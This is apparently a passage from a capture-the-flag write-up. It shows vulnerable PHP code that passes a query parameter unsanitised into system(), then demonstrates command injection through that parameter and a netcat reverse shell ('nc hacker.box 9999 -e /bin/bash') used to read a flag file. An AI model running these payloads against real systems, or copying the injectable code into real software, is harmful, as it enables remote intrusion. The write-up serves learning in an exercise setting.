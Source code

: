 ```
<?php
$file=$_GET['file'] . ".html";
system("cat $file");
?>
```

So we can get some simple command execution by:

```
GET /firstflag.php?file=;whoami;
www-data
```

```
GET /firstflag.php?file=;ls;
1.html
2.html
256.html
ThReE.html <-- I thought this was the third flag, but it just has 27 in it.
completedHHF.html
css
firstflag.php
images
index.html
js
logout.php
quinque.html
quinque.php
secrets.txt
```

```
GET /firstflag.php?file=;whereis%20nc;
nc: /bin/nc /bin/nc.traditional
```

Let's grab a netcat shell then:

`GET /firstflag.php?file=;nc%20hacker.box%209999%20-e%20/bin/bash%20>&1;`

```
glenn@hacker.box:~# nc -v -l 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from [34.254.152.68] port 9999 [tcp/*] accepted (family 2, sport 59276)
pwd
/var/www/html
ls ../
total 12K
-rw-r--r-- 1 root     root       98 Apr 26 22:01 flag2.txt
drwxrwxrwx 1 www-data www-data 4.0K Apr 29 15:36 html
cat ../flag2.txt

Whoops. We should probably store all these keys in a redis db
SP-4aa672bd2e735cc7a314019f4d11bcae
```
